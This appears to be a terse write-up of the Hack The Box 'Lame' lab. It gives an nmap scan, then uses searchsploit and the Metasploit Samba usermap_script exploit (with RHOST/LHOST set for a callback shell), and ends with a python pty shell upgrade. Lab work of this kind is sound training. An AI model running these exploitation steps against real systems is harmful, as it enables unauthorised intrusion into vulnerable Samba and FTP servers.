 # nmap
┌──(root㉿kali)-[/home/tiger/htb_labs/lame]
└─# nmap -sC -sV 10.10.10.3
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-29 22:32 CST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.28s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.16.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-05-29T10:33:07-04:00
|_clock-skew: mean: 2h00m21s, deviation: 2h49m45s, median: 19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.23 seconds


# exploit
# !important, we should read the description
# https://www.exploit-db.com/exploits/17491
# this backdoor was removed on july 3rd 2011.
searchsploit vsftpd 2.3.4

searchsploit samba 3.0.20
msfconsole
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > search samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script
set RHOST
set LHOST
# 查看payload设置
options
# 利用
exploit

# 开启一个pty
python -c 'import pty;pty.spawn("/bin/bash")'
